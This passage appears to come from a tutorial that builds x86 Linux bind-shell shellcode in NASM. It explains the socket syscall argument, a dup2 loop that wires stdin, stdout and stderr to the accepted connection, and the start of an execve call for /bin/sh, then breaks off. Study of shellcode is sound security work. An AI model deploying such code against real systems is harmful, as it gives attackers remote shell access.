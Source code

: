 Boom! Struct completed. Let's put the pointer to this entity into the ECX register so that we can satisfy our `const struct sockaddr *addr` argument. We'll also put 16 into the low part of the EDX register and call the interrupt again while we're here since that's easy enough. 

```nasm 
    mov ecx, esp
    mov dl, 16
    int 0x80
```

## Dup2 Syscall 

If we reference our C prototype, we see that the dup2 call is iterating 3 times in order to duplicate into our accepted connection the STDIN (0), STDOUT (1), and STDERR (2) file descriptors which makes the connection interactive for the user. `cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2` gives a syscall code of 63 (`0x3f`). 

Since we're iterating through this call 3 times, we'll need to set up a loop. We can utilize ECX for this as it's known as the 'counter register.' We'll place a value of 3 into the lower part of ECX and have our loop iterate as long as the zero flag is not set with a `jnz` op code. So as long as the zero flag is not set, which is to say that ECX hasn't been decremented to zero, our code will jump back up to the beginning of the loop and execute it again. 

All that dup2 requires for an argument is the `int sockfd` which was newly created in our accept syscall and stored in EDI. 

```nasm
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    
    mov cl, 0x3     ; putting 3 in the counter
    
    loop_dup2:      
    xor eax, eax   
    mov al, 0x3f    ; putting the syscall code into the lower part of eax
    mov ebx, edi    
    dec cl          ; decrementing cl by one
    int 0x80
    
    jnz loop_dup2   ; jumping back to the top of loop_dup2 if the zero flag is not set
```

## Execve Syscall

Finally, we need to tell the program what to do once everything we've done so far is complete. In our case, we want the program to execute `/bin/sh`. 

`cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve` gives us 11 (`0x0b`). 

Let's clear out EAX

```nasm
    xor eax, eax
```
